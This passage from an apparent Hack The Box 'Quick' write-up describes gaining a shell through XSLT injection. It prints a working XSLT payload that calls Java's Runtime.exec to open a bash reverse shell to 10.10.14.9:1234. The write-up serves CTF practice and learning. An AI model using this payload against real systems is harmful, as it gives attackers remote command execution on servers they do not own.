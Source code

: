 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2011.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2011.png)

## Getting Shell

According to the article we need `xsl` which contains our payload.

> Note: Once a file created with an name and uploaded, you can't use the same filename. For example, If you use `shell.xsl` as first time you can use `shell.xsl` second time so change it to `shell2.xsl` like that.

### XSLT to RCE

Here In `cmd` I changed to Java Reverse shell. I tried number of payloads and everything fails, the thing why I chose `JAVA` reverse shell is from the article ***By default, the XML parser in Java allows the import of Java functions. This can easily lead to arbitrary code execution.***

That's why I decided to try this.

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash -c bash${IFS}-i${IFS}>&/dev/tcp/10.10.14.9/1234<&1]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
